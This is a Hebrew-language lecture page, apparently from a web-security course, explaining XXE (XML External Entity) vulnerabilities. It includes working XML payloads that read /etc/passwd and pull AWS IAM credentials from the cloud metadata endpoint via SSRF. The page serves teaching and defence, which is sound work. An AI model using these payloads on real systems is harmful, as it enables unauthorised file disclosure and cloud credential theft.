

repository: AmitPinchasi/amittech · page: מחקר-אתרים/5  - חולשות צד שרת/5.7 - חולשת xxe/5.7 - חולשת xxe - הרצאה/index.html · generator: mkdocs

# מתקפת XXE (XML External Entity)

## מבוא

חולשת XXE (XML External Entity) היא חולשת אבטחה המתאפשרת כאשר יישומים מעבדים קבצי XML לא מאובטחים ומאפשרים טעינת ישויות חיצוניות (External Entities). באמצעות מתקפה זו, תוקף יכול:

- לקרוא קבצים מהשרת
    
- לבצע התקפת SSRF (Server-Side Request Forgery)
    
- להדליף מידע רגיש
    
- להשבית שירותים (Denial of Service - DoS)
    

## **כיצד פועלת מתקפת XXE?**

פורמט הXML תומך ב-Entities, אשר ניתן להשתמש בהן להחדרת תוכן חיצוני לתוך מסמך XML. כאשר היישום מאפשר עיבוד של ישויות חיצוניות, תוקף יכול לנצל זאת כדי להוציא מידע מהשרת או לבצע בקשות לרשת פנימית.

### **דוגמה למסמך XML תקין:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ELEMENT data ANY>
    <!ENTITY example "Hello, World!">
]>
<data>&example;</data>
```

📌 **כאשר היישום מעבד את המסמך, הוא מחליף את `&example;` במחרוזת "Hello, World!"**

## **ניצול XXE לקריאת קבצים מהשרת**

אם השרת מאפשר ישויות חיצוניות, תוקף יכול להגדיר ישות שתטען קובץ רגיש, כמו `/etc/passwd`.

### **דוגמה למסמך XML זדוני:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ELEMENT data ANY>
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

📌 **כאשר השרת מעבד את ה-XML, הוא מחליף את `&file;` בתוכן של `/etc/passwd` ומחזיר אותו לתוקף.**

## **SSRF באמצעות XXE**

תוקף יכול להשתמש ב-XXE כדי לשלוח בקשות לכתובות פנימיות, למשל לנסות לגשת לinterface ניהול בענן.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ELEMENT data ANY>
    <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<data>&ssrf;</data>
```

📌 **אם האתר רץ על AWS, הוא עלול להדליף פרטי כניסה של השרת.**
